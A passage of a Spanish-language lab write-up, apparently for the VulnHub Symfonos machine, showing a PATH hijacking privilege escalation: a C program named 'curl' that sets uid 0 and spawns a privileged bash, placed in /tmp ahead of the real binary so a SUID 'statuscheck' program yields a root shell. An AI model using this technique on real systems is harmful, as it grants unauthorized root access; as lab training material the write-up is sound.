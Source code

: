 
Para llevar a cabo nuestro **Path Hijacking**, vamos a donde podamos escribir, en este caso "**/tmp/**" para crear allí un archivo script malicioso en **C** con el mismo nombre de "**curl**" y modificar la variable de entorno del OS.

Cremoas el .C
```bash
nano curl.c
```

Código del script malicioso.
```python
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    char *binaryPath = "/bin/bash";
    char *args[] = {binaryPath, "-p", NULL};
    
    execv(binaryPath, args);
    return 0;
}

```

Compilamos el curl.c.
```bash
gcc curl.c -o curl
```

Ahora modificamos la variable de entorno del **OS** poniendo la ruta **"/tmp/"** antes qué llegue a la ruta real del binario **curl** de forma qué lea nuestro **curl** malicioso.

```bash
export PATH=/tmp/:$PATH
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110125050.png)

Ahora al ejecutar el "**statuscheck**" obtendríamos una bash como **ROOT**.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110125217.png)
